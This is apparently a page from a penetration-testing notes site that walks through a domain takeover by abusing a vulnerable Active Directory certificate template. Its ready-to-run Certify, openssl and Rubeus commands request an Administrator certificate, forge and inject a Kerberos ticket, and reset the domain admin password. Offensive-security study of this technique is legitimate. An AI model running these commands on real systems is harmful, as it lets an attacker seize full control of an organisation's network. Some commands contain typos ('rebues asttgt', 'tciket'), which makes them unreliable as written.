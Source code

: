 

## Taking over the domain using rubeus (Privilege Escalation)

{% embed url="https://lnkd.in/gMDHd-Dn" %}

### Identify a Vulnerable Certificate Template

```
certify.exe find /vulnerable
```

### Request the Certificate

```
certify.exe request /ca:CA01.cybex.com\cybex-CA01 /template:PowerUser /altname:Administrator
```

{% hint style="info" %}
Make sure to copy the whole body (from BEGIN RSA PRIVATE KEY to END CERTIFICATE). In order to successfully convert it we must have the private key itself.
{% endhint %}

### Convert .pem file to .pfx file

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

{% hint style="info" %}
Host a python http server and transfer back the .pfx.

\
Now the next step is to simply generate and inject ticket for the issued certificate and enjoy being Administrator.
{% endhint %}

### Rubeus

{% embed url="https://github.com/GhostPack/Rubeus" %}

```
.\rebues asttgt /user:Administrator /certificate:admin.pfx /outfile:admin.tkt /ptt
```

### Change the Domain Admin Password

```
.\rubeus changepw /new:BaronDielm4 /dc:DC01.cybex.com /targetuser:cybex.com\Administrator /tciket:admin.tkt
```

{% hint style="info" %}
Login to the domain admin account using the new password.
{% endhint %}
